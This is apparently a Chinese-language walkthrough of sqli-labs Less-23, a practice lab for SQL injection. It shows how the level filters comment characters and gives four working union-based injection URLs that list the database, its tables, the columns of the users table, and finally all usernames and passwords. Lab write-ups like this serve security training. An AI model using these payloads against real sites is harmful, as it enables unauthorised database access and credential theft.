










# Less - 23

---

# 通关教程

---

## 1、判断闭合

---

随便查询一个数字，结果如下

​​

尝试id=1'，结果如下

​​

在单引号后面加上注释--+，结果如下

​​

尝试将--+换成#

​​

观察该关卡的代码，发现存在转义

​​

发现这里把#和–都给转义成空格了，可以用;%00或者or '1'='1进行闭合，

​​

​​

---

## 2、查看当前数据库

---

```bash
http://192.168.225.132/sqli-labs/Less-23/?id=-1' union select 1,2,database();%00
```

​​

---

## 3、查看security库下的所有表

---

```bash
http://192.168.225.132/sqli-labs/Less-23/?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security');%00
```

​​

---

## 4、查看users表下的所有字段

---

```bash
http://192.168.225.132/sqli-labs/Less-23/?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users');%00
```

​​

---

## 5、查看username,password字段下的所有值

---

```bash
http://192.168.225.132/sqli-labs/Less-23/?id=-1' union select 1,2,(select group_concat(username,password) from security.users);%00
```

​​
